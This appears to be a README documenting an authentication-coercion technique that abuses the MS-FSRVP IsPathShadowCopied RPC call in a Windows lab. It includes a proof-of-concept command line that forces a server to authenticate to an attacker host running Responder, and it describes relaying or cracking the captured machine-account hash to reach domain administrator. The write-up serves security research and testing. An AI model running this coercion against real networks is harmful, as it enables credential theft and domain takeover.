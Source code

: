 # MS-FSRVP - Remote call to IsPathShadowCopied (opnum 9)

## Summary

+ **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

+ **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\\pipe\FssagentRpc`

+ **Function name**: [`IsPathShadowCopied`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/a42d8439-0ef8-4c88-905d-dc781a69753e)

+ **Function operation number**: `9`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\\pipe\FssagentRpc` and bind to the desired [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol (with uuid `a8e0653c-2744-4389-a61d-7373df8b2292` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\\pipe\FssagentRpc` This pipe is connected to the protocol [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. We will then call the remote [`IsPathShadowCopied`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/a42d8439-0ef8-4c88-905d-dc781a69753e) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IsPathShadowCopied('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD IsPathShadowCopied(
         [in] handle_t hBinding,
         [in] [string] LPWSTR ShareName,
         [out] BOOL* ShadowCopyPresent,
         [out] long* ShadowCopyCompatibility);
```

## References

+ Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

+ Documentation of function `IsPathShadowCopied`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/a42d8439-0ef8-4c88-905d-dc781a69753e